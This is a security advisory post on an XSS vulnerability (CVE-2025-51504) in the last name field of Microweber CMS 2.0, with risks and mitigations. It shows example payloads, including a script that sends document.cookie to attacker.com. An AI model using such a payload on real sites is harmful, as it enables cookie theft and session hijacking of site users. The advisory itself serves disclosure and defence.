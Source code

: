 ## Critical Cross-Site Scripting (XSS) Vulnerability Discovered in Microweber CMS 2.0

This post details a recently discovered critical security flaw, **CVE-2025-51504**, affecting **Microweber CMS version 2.0**. For organizations and individuals relying on this content management system, this vulnerability represents a significant risk. If exploited, it could lead to severe consequences, including data theft, unauthorized system access, reputational damage, and financial losses. Understanding this risk is crucial for safeguarding your digital assets and user trust.

### Vulnerability Details

*   **CVE ID:** **CVE-2025-51504**
*   **Affected Software:** **Microweber CMS**
*   **Affected Version:** **2.0**
*   **Vulnerability Type:** Cross-Site Scripting (XSS)

This **Cross-Site Scripting (XSS)** vulnerability stems from insufficient input validation and output encoding in **Microweber CMS 2.0**. Specifically, the `last name` field within the `/projects/profile` and homepage endpoints does not properly sanitize user-supplied data. This allows an attacker to inject malicious scripts into the web page.

*   **Example Affected Field:** `last name` field
*   **Example Affected Endpoints:**
    *   `/projects/profile`
    *   Homepage
*   **Example Payload Type (Illustrative):** An attacker could inject a script similar to:
    ```html
    <script>alert('Malicious script executed!');</script>
    ```
    or more maliciously:
    ```html
    <script>document.location='http://attacker.com/steal?c='+document.cookie</script>
    ```

### Risk Description

Successful exploitation of this **Cross-Site Scripting (XSS)** vulnerability could allow an attacker to:

*   **Steal Sensitive Information:** Gain access to session cookies, login credentials, and other personal data from legitimate users.
*   **Deface Websites:** Alter the visual appearance and content of compromised web pages.
*   **Redirect Users:** Force users to visit malicious websites designed for phishing or malware distribution.
*   **Hijack User Sessions:** Take control of a logged-in user's account without their knowledge or consent.
*   **Execute Malicious Code:** Leverage the user's browser to run arbitrary code, potentially leading to client-side system compromise.

The lack of robust input handling in these critical fields poses a direct threat to user privacy, data integrity, and overall system security.

### Who is at Risk

Any organization or individual currently using **Microweber CMS version 2.0** is at critical risk. This applies to websites where user profiles or public-facing forms might be utilizing the vulnerable `last name` field within the specified endpoints. It is imperative to identify if your web assets are running this specific version.

### Recommendations

Addressing this vulnerability requires immediate action from both developers and website administrators.

*   **For Developers:**
    *   **Implement Strict Input Validation:** Ensure all user-supplied input is rigorously validated against an allowlist of expected characters and formats.
    *   **Apply Output Encoding:** Always encode user-supplied data before it is rendered back into HTML to prevent script execution. This is critical for preventing XSS.
    *   **Adopt a Content Security Policy (CSP):** Implement a robust CSP to restrict where scripts can be loaded from and executed, adding another layer of defense against XSS.
    *   **Review Codebase:** Conduct a thorough security review of all input fields and data display mechanisms within the CMS.

*   **For Website Owners/Admins:**
    *   **Identify Your Version:** Immediately determine if your website uses **Microweber CMS version 2.0**.
    *   **Monitor for Patch:** Stay alert for an official security patch or update from the Microweber CMS developers. Apply it as soon as it becomes available.
    *   **Temporary Mitigation (if no patch):** Consider implementing a Web Application Firewall (WAF) to filter malicious input requests as an interim protective measure.
    *   **Regular Backups:** Ensure you have recent, verified backups of your website data to aid in recovery if an incident occurs.

### Reference Link

For more technical details and ongoing updates regarding this vulnerability, please refer to the following advisory:

[https://github.com/progprnv/CVE-Reports](https://github.com/progprnv/CVE-Reports)
